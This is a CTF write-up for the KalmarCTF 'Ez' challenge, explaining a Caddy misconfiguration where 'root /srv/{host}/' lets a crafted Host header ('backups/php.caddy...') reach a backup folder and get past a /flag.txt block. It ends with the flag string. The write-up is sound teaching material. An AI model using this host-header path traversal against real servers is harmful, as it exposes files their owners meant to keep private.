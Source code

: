 # Ez ⛳
> Heard 'bout that new 🏌️-webserver? Apparently HTTPS just works(!), but seems like someone managed to screw up the setup, woops. The flag.txt is deleted until I figure out that HTTPS and PHP stuff #hacker-proof

## About the Challenge
We are given a website and the source code (You can get the source code [here](source-dummy-flag.zip))

## How to Solve?
You will notice there are 3 subdomains when you open the zip file

![zip](images/zip.png)

And inside the `php.caddy.chal-kalmarc.tf` folder there is a fake flag. So at first I thought we need request to `//php.caddy.chal-kalmarc.tf/flag.txt` to get the flag, but inside `docker-compose` file the author of the chall decided to remove the flag but there is a `backups` folder

```bash
apk add --update openssl nss-tools && rm -rf /var/cache/apk/ && openssl req -x509 -batch -newkey rsa:2048 -nodes -keyout /etc/ssl/private/caddy.key -days 365 -out /etc/ssl/certs/caddy.pem -subj '/C=DK/O=Kalmarunionen/CN=*.caddy.chal-kalmarc.tf' && mkdir -p backups/ && cp -r *.caddy.chal-kalmarc.tf backups/ && rm php.caddy.chal-kalmarc.tf/flag.txt && sleep 1 && caddy run
```

So, we need to access the backup folder to get the flag, but how? There is a misconfiguration on the `Caddy` configuration. The configuration will look like this

```
{
    admin off
    local_certs  # Let's not spam Let's Encrypt
}

caddy.chal-kalmarc.tf {
    redir https://www.caddy.chal-kalmarc.tf
}

#php.caddy.chal-kalmarc.tf {
#    php_fastcgi localhost:9000
#}

flag.caddy.chal-kalmarc.tf {
    respond 418
}

*.caddy.chal-kalmarc.tf {
    encode zstd gzip
    log {
        output stderr
        level DEBUG
    }

    # block accidental exposure of flags:
    respond /flag.txt 403

    tls /etc/ssl/certs/caddy.pem /etc/ssl/private/caddy.key {
        on_demand
    }

    file_server {
        root /srv/{host}/
    }
}
```

The misconfiguration is on the `file_server` directive
```
file_server {
    root /srv/{host}/
}
```

For example if we access `https://php.caddy.chal-kalmarc.tf` caddy will serve any file inside `/srv/php.caddy.chal-kalmarc.tf/` folder, so to access the backup the HTTP request will be like this

```
GET /test HTTP/1.1
Host: backups/php.caddy.chal-kalmarc.tf
Accept-Encoding: gzip, deflate
...
```

And then to access the flag, we can't access to `/flag.txt` because there is a restriction on the `caddy` configuration

```
respond /flag.txt 403
```

To bypass this restriction, we can send the HTTP request like this

![flag](images/flag.png)

```
kalmar{th1s-w4s-2x0d4ys-wh3n-C4ddy==2.4}
```